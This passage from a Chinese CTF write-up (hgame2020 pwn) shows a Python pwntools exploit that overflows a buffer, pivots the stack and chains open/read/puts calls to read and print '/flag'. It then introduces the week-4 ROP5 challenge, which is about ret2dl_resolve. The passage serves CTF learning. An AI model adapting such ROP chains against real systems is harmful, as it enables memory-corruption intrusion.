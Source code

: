 ```python

# rop1
offset = 80
payload = '\0'*offset
payload += p64(buf)
payload += p64(leave)

# open('/flag',0,0x100)
stack = p64(p6r) + p64(0) + p64(1) + p64(buf+0x8*9) + p64(0x100) + p64(0) + p64(buf+0x8*18) + p64(m3c) + p64(open_plt)
# read(4,bss_base,0x100)
stack += p64(0) + p64(1) + p64(buf+0x8*17) + p64(0x100) + p64(bss_base) + p64(0x4) + p64(m3c) + p64(read_plt)
# padding
stack += '/flag\0\0\0'
stack += p64(0xdeadbeef)*5
# pust(bss_base)
stack += p64(prdi) + p64(bss_base) + p64(puts_plt) + p64(0xdeadbeef) 

ru('think so?')
sl('TaQini!!'+stack)
rc()
# debug()
sl(payload)
# sleep(3)
sl('TaQini is here~~~')

p.interactive()
```

# Week4

week4只有两道题，想必是极难的，week3也还剩下3道题，留个坑，以后看。

(杭电出的题目，水准很高~ 必须点个赞^_^)

## ROP5

- 题目描述：

  > Do you know the Lv.5? 
  > Just like Misaka Mikoto!

- 题目附件：[ROP5](https://cdn.jsdelivr.net/gh/TaQini/CTF@master/hgame2020/pwn/week4_1/ROP5)

- 考察点：r2dl_resolve

- 难度：困难

- 初始分值：500

- 最终分值：500
